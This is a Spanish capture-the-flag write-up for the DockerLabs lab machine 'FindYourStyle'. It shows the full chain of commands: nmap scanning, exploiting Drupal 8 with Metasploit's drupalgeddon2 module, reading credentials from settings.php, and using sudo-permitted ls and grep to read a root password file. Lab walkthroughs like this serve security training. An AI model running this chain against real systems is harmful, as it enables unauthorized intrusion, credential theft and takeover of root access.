___
Tags: #drupal #drupal8 #metasploit #privesc #drupalgeddon2
___
# FindYourStyle

## Información General

**- Dificultad:** Fácil <br>
**- Sistema operativo:** Linux <br>
**- Vulnerabilidad explotada.** drupalgeddon2 y privesc <br>
**- Fecha de resolución:** 08/03/2026 <br>
**- Enlace:** https://dockerlabs.es <br>

## Reconocimiento

**Dockerlabs** nos proporciona la ip de la máquina objetivo **172.17.0.2**
### Ping

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 172.17.0.2
```

**Su ttl es 64. Por tanto, es Linux**

## Enumeración

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn <ip de la máquina objetivo>
```

<p align="center"> 

</p>

| Open port | Service | Version             |
| --------- | ------- | ------------------- |
| 80        | http    | Apache httpd 2.4.25 |
Investigando que tipo de pagina nos encontramos, resulta que estamos antes un drupal, pero no sabemos que versión es:

<p align="center"> 

</p>

Uso la herramienta **whatweb** para saber que versión tiene

<p align="center"> 

</p>

Estamos antes un drupal 8

## Explotación

### Metasploit

```
search drupal 8
```

<p align="center"> 

</p>

```
use 0
set RHOSTS 172.17.0.2
show options
```

<p align="center"> 

</p>

En este tipo de payload solo es necesario la ip de la maquina victima donde queremos atacar.

```
run
```

Tenderemos que activa una shell

```
shell
script /dev/null -c bash
```

Siempre que estamos intentando trabajar con drupal, hay que localizar siempre su archivo **settings.php** mediante el siguiente comando:

```
find / -name settings.php 2>/dev/null
```

<p align="center"> 

</p>

```
cat /var/www/html/sites/default/settings.php
```

<p align="center"> 

</p>

```
su ballenita
```

Luego introducimos la contraseña

<p align="center"> 

</p>

## Escalada de Privilegios

### Primer comando:

```
sudo -l
```

<p align="center"> 

</p>

```
sudo -u root /bin/ls -la /root
```

<p align="center"> 

</p>

```
sudo -u root /bin/grep '' /root/secretitomaximo.txt
```

<p align="center"> 

</p>

pass: **nobodycanfindthispasswordrootrocks**

```
su root
```

Metemos la contraseña

<p align="center"> 

</p>

## Conclusión

La máquina de **FindYourStyle** de **Dockerlabs** usa drupal, una versión explotable por metasploit **drupalgeddon2**, luego encontramos en al archivo **settings.php** de drupal, el usuario ballenita y su contraseña. Luego, con el comando **sudo -l** encontramos el binario ls y grep con permiso de root, y mediante los binarios conseguimos la contraseña del usuario root